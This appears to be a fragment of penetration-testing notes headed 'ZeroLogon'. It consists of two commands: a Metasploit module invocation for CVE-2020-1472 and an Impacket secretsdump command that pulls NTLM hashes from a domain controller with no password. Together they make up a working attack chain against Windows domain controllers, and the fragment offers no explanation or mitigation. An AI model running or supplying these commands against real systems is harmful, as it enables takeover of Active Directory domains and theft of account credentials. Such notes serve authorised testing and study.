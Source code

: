 ## ZeroLogon

```
use auxiliary/admin/dcerpc/cve_2020_1472_zerologon
```

```sh
secretsdump.py DC1\$@192.168.179.132 -no-pass -just-dc-ntlm
```